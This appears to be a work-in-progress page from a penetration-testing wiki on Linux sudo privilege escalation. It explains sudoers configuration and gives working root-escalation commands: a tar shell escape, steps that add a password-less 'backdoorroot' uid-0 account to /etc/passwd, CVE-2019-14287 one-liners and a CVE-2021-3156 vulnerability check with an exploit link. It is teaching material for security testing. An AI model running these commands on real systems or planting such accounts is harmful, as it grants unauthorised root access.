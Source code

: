 # 🛠️ SUDO

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

`sudo` \(Super User DO\) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user \(by default, the superuser\).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers \( 😯_I know right_🧠 \). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 \(read-only\) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](../../../.gitbook/assets/sudoers_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure misconfiguration, or by exploiting the program's vulnerabilities.

### Configuration

#### Default permissions

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following \(default config for a new sudoer\).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo <program>`.

#### Living off the land

While, the configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

#### Escalation tricks

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### Vulnerabilities

#### CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a `sudo -u \#$((0xffffffff))` command.

Exploiting the bug requires that the user have sudo privileges that allow them to run commands with an arbitrary user ID. Typically, this means that the user's sudoers entry has the special value ALL in the Runas specifier. Sudo supports running a command with a user-specified user name or user ID, if permitted by the sudoers policy.

Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` (or its unsigned equivalent `4294967295`), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.

Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.

**Exploits** :
 - `sudo -u#-1 sh -p`
 - `sudo -u#4294967295 sh -p`

**Additional References** :

 - https://nvd.nist.gov/vuln/detail/CVE-2019-14287

#### CVE-2021-3156 - Heap-Based Buffer Overflow in Sudo (Baron Samedit)

Sudo before 1.9.5p2 has a Heap-based Buffer Overflow, allowing privilege escalation to root via "sudoedit -s" and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, login to the system as a non-root user and run command `sudoedit -s /`. 

 - If the system is patched, it will respond with an error that starts with `usage:` such as :

```
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
```

 - If the system is vulnerable, it will respond with an error that starts with `sudoedit:` such as :

```
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

**Exploits** :

To exploit a vulnerable system, you can use this exploit : https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot

**Additional References** :

 - Original Advisory : https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
 - https://nvd.nist.gov/vuln/detail/CVE-2021-3156

## References

{% embed url="https://gtfobins.github.io/\#+sudo" caption="" %}

